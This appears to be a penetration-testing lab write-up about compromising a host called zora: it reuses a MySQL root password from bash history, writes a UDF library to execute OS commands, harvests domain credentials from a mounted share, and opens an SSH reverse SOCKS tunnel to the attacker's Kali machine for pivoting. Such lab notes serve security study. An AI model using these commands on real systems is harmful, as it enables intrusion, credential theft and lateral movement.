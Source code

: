 # zora (10.5.5.11)
***
## Exploitation

1. MySQL root and password was retrieved from `/root/.bash_history` file of Ajla (`10.4.4.10`). We used the credentials to connect to the mysql server.
   
``` 
mysql -u root -pBmDu9xUHKe3fZi3Z7RdMBeb --host=127.0.0.1 --port=13306
```

> [!info] 
> One of the techniques to execute OS commands using MySQL is through the use of **User Defined Functions (UDF)**. 
> 
> Using our console access (with root privilege), we are able to write a library (`.so`) containing a User Defined Functions (e.g function that execute OS commands) that can be then invoked through additional queries.

2. We've created a function that will execute OS commands through the use of queries. 
```
set @shell = 0x<REPLACE_THIS>; select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so'; create function sys_exec returns int soname 'udf_sys_exec.so'; select * from mysql.func where name='sys_exec';
```

3. One of the technique to execute OS commands using MySQL is through the use of **User Defined Functions (UDF)**



> [!info] 
> Using our reverse shell, we checked on [[mounted-shares]] using `cat /etc/fstab`, and we found out that a share is mounted from the `10.5.5.20` host.
> 
>  Also, a powershell script [[system_report.ps1]] was found inside `/mnt/Scripts` containing credentials of a domain user named `alex`
   
4. Generate key-pair and add public key to Kali
5. Set up a dynamic port forward (SOCKS) from Zora to Kali using port 1080
   
```
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@KALI_IP
```

> [!info] 
> `kali@kali:~$ proxychains nmap --top-ports=20 -sT -Pn 10.5.5.20`  shows that port 3389 (RDP) is open.

